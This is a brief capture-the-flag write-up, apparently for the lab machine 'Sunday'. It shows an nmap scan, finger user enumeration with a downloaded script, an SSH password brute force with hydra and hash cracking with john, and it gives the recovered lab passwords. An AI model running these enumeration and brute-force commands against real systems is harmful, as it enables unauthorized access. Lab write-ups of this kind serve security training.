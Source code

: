 Sunday without metasploit

![Sunday](https://user-images.githubusercontent.com/55708909/91526264-db8e9000-e920-11ea-8de4-c2507f4099ee.png)


Starting with nmap scan:

Nmap -sC -sV -T4 -A -O -oA Sunday -p- 10.10.10.76


I saw finger service ruuning and i know this service give info about logged in user.

![Sunday_finger](https://user-images.githubusercontent.com/55708909/91526816-1b09ac00-e922-11ea-8178-b6a72a650e6a.png)

Pentest monkey has an awesome script for finger service , here is the  link

wget https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl

Run it in order to know who logged into p.c. 

You need a good list for users and here is one from seclist github

wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/Names/names.txt

run these command and you will find appropriate users

![Sunday_finger_user](https://user-images.githubusercontent.com/55708909/91527570-a2a3ea80-e923-11ea-8177-96638e20536d.png)

i brute force  sssh and found password sunday

hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 ssh -s 22022

logged into system.

![Sunday_backup](https://user-images.githubusercontent.com/55708909/91528293-0f6bb480-e925-11ea-9081-a40875c121bf.png)

john --wordlist=/usr/share/wordlists/rcokyou.txt hash.txt

password : cooldude!

![Sunday_user_flag](https://user-images.githubusercontent.com/55708909/91529213-85bce680-e926-11ea-88dc-c922dfa5bdc5.png)



